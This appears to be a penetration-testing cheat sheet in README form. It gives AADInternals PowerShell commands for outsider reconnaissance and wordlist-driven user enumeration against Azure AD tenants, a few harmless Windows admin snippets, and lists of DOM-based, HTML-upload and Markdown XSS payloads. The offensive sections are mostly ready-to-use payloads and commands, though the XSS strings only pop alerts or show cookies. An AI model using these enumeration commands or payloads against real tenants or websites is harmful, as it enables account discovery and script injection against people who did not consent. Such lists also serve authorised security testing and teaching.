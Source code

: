 ```powershell
Invoke-AADIntReconAsOutsider -DomainName company.com | Format-Table

# check if a signle user exists
Invoke-AADIntUserEnumerationAsOutsider -UserName "user@company.com"

# use wordlists to enumerate users
Get-Content .\users.txt | Invoke-AADIntUserEnumerationAsOutsider -Method Normal
```
### Windows 32-bit/64-bit Folder Locations
|Folder Name|Folder Path|Description|
|---|---|---|
|System32|C:\Windows\System32|Windows System folder (system directory) for 64-bit files|
|SysWOW64|C:\Windows\SysWOW64|Windows System folder (system directory) for 32-bit files|
|Program Files|C:\Program Files|Folder for 64-bit program files|
|Program Files (x86)|C:\Program Files (x86)|Folder for 32-bit program files|

### Creating/Killing a Process with PowerShell CIM Instance
```powershell
# Starting calcp.exe
Invoke-CimMethod -classname win32_process -methodname create -Arguments @{commandline="calc.exe"}
# killing calculatorapp.exe
get-ciminstance -classname win32_process -filter 'name="calculatorapp.exe"' | remove-ciminstance
```
### Get .NET Framework Version Installed via Registry
```powershell
dir "HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\"
gp "HKLM:\SOFTWARE\Microsoft\NET Framework Setup\NDP\v4\Full\" -name release

```
### DOM-based XSS Payloads
```
; alert(1); <!–
“;alert(‘XSS’);//
“);alert(document.cookie);
2′;while(1){int i=1;}var xx=’1
; window.open(www.google.com);
‘;alert(String.fromCharCode(88,83,83))//
‘;var x=”XSS”;//&test=b’;alert(x);//
“><img src=1 onerror=prompt(0);>
</script>alert(‘xss’)
```
### Simple HTML File Upload XSS
```html
<html>
<title>
  test
</title>
	<script>alert(document.domain)</script>
</html>
```
### Markdown XSS Payloads
```
[Basic](javascript:alert('Basic'))
[Local Storage](javascript:alert(JSON.stringify(localStorage)))
[CaseInsensitive](JaVaScRiPt:alert('CaseInsensitive'))
[URL](javascript://www.google.com%0Aalert('URL'))
[In Quotes]('javascript:alert("InQuotes")')
![Escape SRC - onload](https://www.example.com/image.png"onload="alert('ImageOnLoad'))
```